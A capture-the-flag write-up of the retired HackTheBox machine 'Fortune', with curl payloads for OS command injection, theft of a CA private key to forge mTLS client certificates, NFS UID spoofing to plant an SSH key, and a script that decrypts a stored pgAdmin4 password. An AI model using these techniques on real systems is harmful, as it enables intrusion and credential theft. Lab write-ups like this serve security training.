








# Fortune

```
Platform    : HackTheBox
OS          : OpenBSD
Difficulty  : Insane
Category    : Web RCE / mTLS Client Certificate Abuse / NFS UID Spoofing / Credential Decryption
IP          : 10.129.42.19
```

---

## Summary

The target ran a minimal OpenBSD web app that selected a "fortune"
database via a POST parameter, which turned out to be vulnerable to
OS command injection. That RCE was used to read a Certificate
Authority's intermediate private key from another user's home
directory, which was then used to forge a valid client certificate
and authenticate via mutual TLS (mTLS) to a hidden HTTPS
application. That app granted SSH access, but only through
`authpf`, a restricted shell that does nothing but authorize
firewall rules — no command execution. Re-scanning the host through
that authenticated firewall session revealed previously hidden
services, including NFS. Mounting the NFS share and spoofing a
local UID allowed planting an SSH key in another user's home
directory to get a full interactive shell. From there, an old email
in the user's mailbox hinted at password reuse with the database
admin account; a leaked pgAdmin4 SQLite database exposed an
encrypted password blob, which was decrypted offline by reusing
pgAdmin4's own AES key-derivation logic — recovering the root
password directly.

---

## Reconnaissance

```
ping -c 1 10.129.42.19
nmap -p- -sS --min-rate 5000 -vvv -Pn --open 10.129.42.19 -oN scan.txt
nmap -p 22,80,443 -sCV 10.129.42.19
```

Key findings:

- **Port 22** — OpenSSH 9.1
- **Port 80** — OpenBSD httpd, serving a "Fortune" web app that lets
  the user pick a database (`fortunes`, `fortunes2`, `recipes`,
  `startrek`, `zippy`) from a form
- **Port 443** — TLS service, certificate issued to `fortune.htb` /
  `Fortune Co HTB`



---

## Enumeration

The `/select` endpoint was intercepted to inspect how the `db`
parameter was submitted, as a baseline before testing injection:





Command injection was then attempted by appending a `ping` command
to the `db` parameter:



The response confirmed the ping executed in-band, with its output
embedded directly in the returned HTML:



This was cross-checked out-of-band with `tcpdump` listening for the
resulting ICMP traffic, confirming the command executed on the
target and not just in a sandboxed output buffer:



Burp became unreliable partway through, so the rest of the
enumeration was done straight from the terminal:

```bash
curl -X POST http://10.129.42.19/select --data 'db=whatever;id'
```

```
uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)
```

Listing the app directory and reading the source confirmed the root
cause — the `db` form value is concatenated directly into a shell
command via `os.popen`, with no sanitization:

```bash
curl -X POST http://10.129.42.19/select --data 'db=whatever;cat fortuned.py'
```

```python
from flask import Flask, request, render_template, abort
import os

app = Flask(__name__)

@app.route('/select', methods=['POST'])
def fortuned():
    cmd = '/usr/games/fortune '
    dbs = ['fortunes', 'fortunes2', 'recipes', 'startrek', 'zippy']
    selection = request.form['db']
    shell_cmd = cmd + selection
    result = os.popen(shell_cmd).read()
    return render_template('display.html', output=result)
```

Enumerating `/home` directories through the same RCE turned up a CA
directory under `bob`:

```bash
curl -X POST http://10.129.42.19/select --data 'db=whatever;ls /home/bob/ca/intermediate/private'
```

```
fortune.htb.key.pem
intermediate.key.pem
```

`fortune.htb.key.pem` (the leaf/server key) wasn't readable by
`_fortune`, but `intermediate.key.pem` — the **intermediate CA's own
private key** — was:

```bash
curl --silent -X POST http://10.129.42.19/select \
  --data 'db=whatever;cat /home/bob/ca/intermediate/private/intermediate.key.pem' \
  | grep -zo '\-\-.*\-\-' > intermediate.key.pem

curl --silent -X POST http://10.129.42.19/select \
  --data 'db=whatever;cat /home/bob/ca/intermediate/certs/intermediate.cert.pem' \
  | grep -zo '\-\-.*\-\-' > intermediate.cert.pem
```

Having an intermediate CA's private key means arbitrary client
certificates can be forged and trusted by anything that validates
against that CA — this was the key to reaching the mTLS-protected
`https://fortune.htb`.

---

## Foothold

The intermediate key/cert pair was bundled into a PKCS#12 file for
browser import:

```bash
openssl pkcs12 -export -out client.p12 -inkey intermediate.key.pem -in intermediate.cert.pem
```

After importing `client.p12` into the browser, `https://fortune.htb`
granted access as a valid mTLS client and exposed a page to generate
SSH credentials:





The generated private key was saved locally with `600` permissions.
Reading `/etc/passwd` through the original RCE showed a user with an
unusual shell:

```bash
curl -X POST http://10.129.42.19/select --data 'db=whatever;cat /etc/passwd'
```

```
nfsuser:*:1002:1002::/home/nfsuser:/usr/sbin/authpf
```

Connecting with the generated key confirmed access, but as a
restricted `authpf` session — no interactive shell, just a firewall
authorization gate:

```bash
ssh -i private.key nfsuser@fortune.htb
```

```
Hello nfsuser. You are authenticated from host "10.10.17.96"
```

**authpf** is a special OpenBSD login shell used purely as a
firewall gateway: authenticating via SSH dynamically loads `pf`
rules scoped to that user, instead of dropping into a normal shell.
With the `authpf` session kept open (and its firewall rules active),
a second full port scan revealed services that were previously
filtered:

```
nmap -p- -sS --min-rate 5000 -vvv -Pn --open 10.129.42.19
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
632/tcp  open  bmpp
2049/tcp open  nfs
8081/tcp open  blackice-icecap
```

```
nmap -p 111,632,2049,8081 -sCV 10.129.42.19
```

- **111/632/2049** — rpcbind / mountd / NFS, exporting `/home`
- **8081** — an internal OpenBSD httpd instance referencing a
  `pgadmin4` service ("temporarily unavailable")

The NFS export was mounted locally:

```bash
sudo mount -t nfs 10.129.42.19:/home /mnt/nfs -o nolock
cd /mnt/nfs && ls
```

```
bob  charlie  nfsuser
```

`charlie`'s directory contained `user.txt`, but writing into
`charlie`'s `.ssh` folder required matching UIDs — the local user
was switched to spoof `charlie`'s UID over NFS, then a fresh SSH
keypair was generated and appended to `authorized_keys`:

```bash
ssh-keygen -t rsa -b 4096
cat ~/.ssh/id_rsa.pub >> /mnt/nfs/charlie/.ssh/authorized_keys
```

```bash
ssh charlie@10.129.42.19
```

```
OpenBSD 7.2 (GENERIC) #5
fortune$ whoami
charlie
```

---

## Privilege Escalation

An old email in `charlie`'s mailbox hinted at password reuse between
`bob`'s pgAdmin4 setup and the root/database admin account:

```bash
cat mbox
```

```
From bob@fortune.htb
Subject: pgadmin4

Hi Charlie,

Thanks for setting-up pgadmin4 for me. Seems to work great so far.
BTW: I set the dba password to the same as root. I hope you don't mind.

Cheers,
Bob
```

pgAdmin4's local SQLite database (`/var/appsrv/pgadmin4/pgadmin4.db`)
was readable and contained both application login password hashes
and a **stored, AES-encrypted PostgreSQL server password**:

```bash
strings pgadmin4.db | grep bob
```

```
bob@fortune.htb$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg
```

```bash
strings pgadmin4.db | grep -A1 postgres
```

```
postgresdba utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz
```

pgAdmin4 is open-source, so its own encryption logic
([`crypto.py`](https://github.com/postgres/pgadmin4/blob/master/web/pgadmin/utils/crypto.py))
was reused to write a small offline decryption script. pgAdmin4
derives the AES key for a stored server password from the
**owning user's own login password hash** — so `bob`'s pbkdf2 hash
(recovered above) was used as the decryption key against the stored
`postgresdba` ciphertext:

```python
import base64
from Crypto.Cipher import AES

padding_string = b'}'

def pad(key):
    if isinstance(key, str):
        key = key.encode('utf-8')
    if len(key) > 32:
        return key[:32]
    if len(key) in (16, 24, 32):
        return key
    return key + ((32 - len(key) % 32) * padding_string)

def decrypt(ciphertext, key):
    key_bytes = pad(key)
    ciphertext_bytes = base64.b64decode(ciphertext)
    iv = ciphertext_bytes[:AES.block_size]
    cipher = AES.new(key_bytes, AES.MODE_CFB, iv)
    return cipher.decrypt(ciphertext_bytes[AES.block_size:]).decode('utf-8')

print(decrypt(
    "utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz",
    "$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg"
))
```

```
R3us3-0f-a-P4ssw0rdl1k3th1s?_B4D.ID3A!
```

Per bob's own email, this password was reused for `root`:

```
fortune$ su root
Password:
fortune# whoami
root
```

---

## Lessons Learned

- Command injection into `os.popen`/`os.system` doesn't need to be
  the endgame by itself — it's a reconnaissance tool. Here it was
  used purely to read files across the filesystem (source code,
  `/etc/passwd`, other users' key material) rather than to pop a
  reverse shell directly.
- Finding an **intermediate CA's private key** is effectively as
  good as finding any certificate it ever signed, or will sign —
  it lets an attacker forge trusted client certificates for mTLS
  without needing the actual leaf key.
- A restricted shell like `authpf` isn't a dead end — it's a
  firewall gate. The real value of authenticating to it is the
  **network access it unlocks**, not the shell itself; re-scanning
  after authentication is essential.
- NFS exports that trust client-supplied UIDs (`no_root_squash` /
  no `all_squash`) let an attacker impersonate any local user simply
  by matching UIDs on their own machine — no credentials needed to
  write into that user's home directory (e.g. dropping an SSH key).
- Application databases (pgAdmin4's SQLite file here) can hold more
  than login hashes — stored *connection* passwords are often
  encrypted with logic that ships in the application's own
  open-source code. When the source is public, the "encryption" is
  really just an offline password recovery script waiting to be
  written.
- Old internal emails/mailboxes are a classic (and still effective)
  source of password-reuse intel — worth checking even on machines
  that otherwise feel fully enumerated.

---

<sub>Write-up published after machine retirement, per HackTheBox disclosure policy.</sub>
